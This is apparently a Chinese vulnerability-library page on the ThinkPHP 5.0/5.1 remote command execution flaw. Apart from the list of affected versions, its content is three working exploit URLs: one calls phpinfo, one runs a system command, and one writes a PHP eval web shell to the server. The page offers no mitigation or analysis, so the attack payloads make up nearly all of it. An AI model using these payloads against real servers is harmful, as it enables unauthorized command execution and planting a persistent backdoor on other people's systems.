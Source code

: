 ```yaml
---
title: 'Thinkphp 5.x远程命令执行漏洞'
date: Sun, 30 Aug 2020 08:00:34 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

ThinkPHP 5.0.x < 5.0.23 ThinkPHP 5.1.x < 5.1.31

### 漏洞POC

phpinfo：

```
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

![](https://www.bylibrary.cn/wp-content/uploads/2020/08/15988684651.png) 系统命令执行：

```
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

![](https://www.bylibrary.cn/wp-content/uploads/2020/08/15988684991.png) 写shell：

```
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php @eval($_GET["cmd"])?>
```

![](https://www.bylibrary.cn/wp-content/uploads/2020/08/15988696981.png)